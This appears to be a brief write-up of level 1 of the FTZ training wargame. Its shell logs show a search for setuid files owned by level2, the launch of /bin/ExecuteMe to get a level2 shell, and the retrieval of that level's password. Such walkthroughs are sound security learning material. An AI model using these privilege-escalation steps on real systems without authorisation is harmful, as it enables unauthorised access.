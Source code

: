 # Level1

`[level1@ftz level1]$ ls -l
total 12
-rw-r--r--    1 root     root           47 Apr  4  2000 hint
drwxr-xr-x    2 root     level1       4096 Dec  7  2003 public_html
drwxrwxr-x    2 root     level1       4096 Jun  3 11:58 tmp
[level1@ftz level1]$ cat hint
Level2 권한에 setuid가 걸린 파일을 찾는다.`

`[level1@ftz level1]$ find / -user level2 -perm -4000 2>/dev/null
/bin/ExecuteMe
[level1@ftz level1]$ ls -l /bin/ExecuteMe
-rwsr-x---    1 level2   level1      12868 Aug 19  2014 /bin/ExecuteMe`

`[level1@ftz level1]$ /bin/ExecuteMe`

`[level2@ftz level2]$ bash`

`[level2@ftz level2]$ my-pass
Level2 Password is "hacker or cracker".`

